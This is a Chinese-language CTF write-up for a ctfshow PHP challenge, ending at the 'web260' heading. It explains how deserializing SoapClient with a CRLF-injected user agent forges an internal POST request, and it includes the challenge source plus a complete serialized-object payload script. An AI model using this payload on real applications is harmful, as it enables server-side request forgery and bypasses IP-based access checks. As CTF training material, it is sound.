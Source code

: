 考点：[php原生类SoapClient](https://www.xiinnn.com/article/7741c455.html#SoapClient%E5%9C%A8%E5%AE%89%E5%85%A8%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8)

####  介绍

```
php在安装php-soap拓展后，可以反序列化原生类SoapClient，来发送http post请求。
必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。
通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容
```

SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(*SOAP* 是一种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果去调用了一个不存在的函数，会去调用`__call`方法

具体的利用方式，上面链接有，我就不多阐述了。

同时也用到了[CRLF漏洞](https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html)

flag.php源码

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

直接构造payload

```php
<?php
$ua = "z3eyond\r\nX-Forwarded-For: 127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1/' , 'location' => 'http://127.0.0.1/flag.php' , 'user_agent' => $ua));

print_r(urlencode(serialize($client)));
```

其中content-type的需要与post的内容一致。

直接get传vip=xxx就可以了，最后访问/flag.txt应该就能拿到flag了。

###  web260

代码
